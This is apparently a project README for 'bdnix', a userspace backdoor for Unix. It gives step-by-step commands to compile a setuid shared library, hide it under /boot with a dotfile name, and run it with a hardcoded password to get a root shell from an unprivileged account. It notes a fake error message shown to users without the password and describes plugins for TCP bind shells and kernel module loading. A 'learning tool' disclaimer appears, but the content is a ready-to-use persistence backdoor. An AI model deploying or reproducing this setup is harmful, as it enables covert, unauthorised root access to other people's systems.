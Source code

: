  <pre>
      ___           ___           ___                       ___     
     /\  \         /\  \         /\__\          ___        |\__\    
    /::\  \       /::\  \       /::|  |        /\  \       |:|  |   
   /:/\:\  \     /:/\:\  \     /:|:|  |        \:\  \      |:|  |   
  /::\~\:\__\   /:/  \:\__\   /:/|:|  |__      /::\__\     |:|__|__ 
 /:/\:\ \:|__| /:/__/ \:|__| /:/ |:| /\__\  __/:/\/__/ ____/::::\__\
 \:\~\:\/:/  / \:\  \ /:/  / \/__|:|/:/  / /\/:/  /    \::::/~~/~   
  \:\ \::/  /   \:\  /:/  /      |:/:/  /  \::/__/      ~~|:|~~|    
   \:\/:/  /     \:\/:/  /       |::/  /    \:\__\        |:|  |    
    \::/__/       \::/__/        /:/  /      \/__/        |:|  |    
     ~~            ~~            \/__/                     \|__|    
 </pre>

<p>Trivial userspace backdoor for Unix</p>
</p>Emanuele Paiano - nixw0rm@gmail.com</p>

<h6>This is a learning tool, so use it ONLY on your home systems (like 
Desktop PC or Raspberry Pi). I'm not responsable for abuses. 
Use it at your risk!  </h6>                         

------------------
 GETTING STARTED
------------------

1) Open root terminal in current directory and go into bdnix folder
  <pre>
   # cd /path/bdnix
   </pre>
2) From root run 'make' to build binary file
  <pre>
   # make
   </pre>
3) copy created file (i.e. libbd.so) with -p option to a hidden location like /bin, /etc,
<pre>
   # cp -p libbd.so /boot/.libbd.so
   # chmod +sx /boot/.libbd.so
   </pre>       
   and setuid file (chmod +x).


4) logout from server and log in again with unprivileged user. 


5) Run binary with joshua to enable backdoor
<pre>
   $ /boot/.libbd.so joshua /bin/sh

   if you see '#' then.. you are root! :)
   </pre>

6) if you run without joshua password, you can read a (fake) error:
<pre>
/bin/sh: cannot execute binary file
</pre>

---------------------
 CUSTOMIZE PASSWORD
---------------------

Opening settings.h you can change default password "joshua" (can you remember WOPR?):
<pre><code>
#define ARG1 "joshua"
</code></pre>
we can change it to "chips"
<pre><code>
#define ARG1 "chips"
</code></pre>
Now recompiling (read above) and running with new password:
<pre><code>
$ /boot/.libbd.so chips /bin/sh
#
</code></pre>
If we have rootshell, it works! :)


------------------
 ENABLING PLUGINS
------------------
Plugins are .h file in plugins/ folders. By plugins you can add code portions and
add new functionaties to bdnix (i.e. binding shell on TCP port, loading kernel module, etc).
To enable a plugin:

1) Open settings.h include file and search for options like:
<pre><code>
/* PLUGINS */

/* enable rootshell */
#define SHELL 1
</code></pre>       
2) Change 1 to enable, or 0 to disable code.

Example. If you have rootshell disabled and myplugin enabled:
<pre><code>
/* enable rootshell */
#define SHELL 0

/* my plugin */
#define MYPLUGIN 1
</code></pre>    
Your backdoor run MYPLUGIN code and ignore rootshell. You can enable more plugins together: 
all enabled plugins run in sequential mode. 

For adding or writing custom plugin, read WRITING A PLUGIN.


-------------------
 WRITING A PLUGIN
-------------------
1) If you need write plugin, you must create .h file into plugin using next template:
<pre><code>
int <PLUGIN_NAME>_init()
{
  //code plugin
}
</code></pre>
   replacing PLUGIN_NAME with your plugin's name and write you code inside function. 

2) Open bdcode.c and find this code into main():
<pre><code>
    #if SHELL == 1
      shell_init(argv[2]);
    #endif
</code></pre>
   and edit previos code in this:
<pre><code>
    #if SHELL == 1
      shell_init(argv[2]);
    #endif
    #if PLUGIN_NAME == 1
      PLUGIN_NAME_init();
    #endif
</code></pre>
   removing PLUGIN_NAME with you plugin's name.

   TIPS EXAMPLE: You can start to write you plugin editing RAW plugin.



----------
 LICENSE
----------
This code is released under GNU/GPL3 terms, read COPYING for info.
